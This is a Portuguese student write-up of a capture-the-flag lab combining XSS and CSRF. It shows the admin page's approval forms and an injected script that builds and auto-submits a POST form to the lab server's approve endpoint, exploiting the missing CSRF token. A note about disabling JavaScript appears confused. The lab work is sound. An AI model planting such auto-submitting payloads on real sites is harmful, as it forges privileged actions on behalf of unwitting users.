

# CTF Semana 6 (XSS + CSRF)


## Descrição 
Foi-nos fornecido um servidor web, onde a página principal consiste numa caixa de texto para fazer um pedido de acesso à flag. A esse pedido é associado um id único, e através dele podemos aceder ao estado do pedido. Como utilizador sem permissões, o site apenas nos permite que esperemos pela resposta do administrador, mas poderemos atacar o servidor de forma a forçarmos que nos seja fornecida a flag.


## Análise do problema
Após submetermos um pedido de flag, a página onde somos redirecionados mostra o estado do pedido, juntamente com um link para a interface de administrador, e será nesta que nos focaremos.

Reparamos que, para gestão do pedido, o adminstrador tem dois formulários: para aprovar e para marcar como lido. Se conseguirmos forçar a submissão do primeiro, teremos acesso à flag.

```html
<form method="POST" action="/request/3bb6815491cc7143e18c4025c9b8a4f4d77bf347/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled>
    </div>
</form>

<form method="POST" action="/request/3bb6815491cc7143e18c4025c9b8a4f4d77bf347/mark_as_read" role="formRead">
    <div class="submit">
        <input type="submit" id="markAsRead" value="Mark request as read" disabled>
    </div>
</form>
```

## Resolução do problema 
Na página inicial, teremos de forçar a submissão do formulário de aprovação.

Como o site não têm token CSRF, poderemos forçar o site a executar código JavaScript criado por nós.

***Nota**: Teremos de desativar o JavaScript no browser para que o nosso script funcione.*

Neste caso, a função será assim:

```html
<script>
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'http://ctf-fsi.fe.up.pt:5005/request/[ID]/approve';
    document.body.appendChild(form);
    form.submit();
</script>
```
***Nota**: O id tem de ser introduzido pelo utilizador*.

## Conclusão
Confirmando este input, basta esperarmos uns momentos e a flag aparecerá, e dessa forma o CTF dar-se-á por concluído.
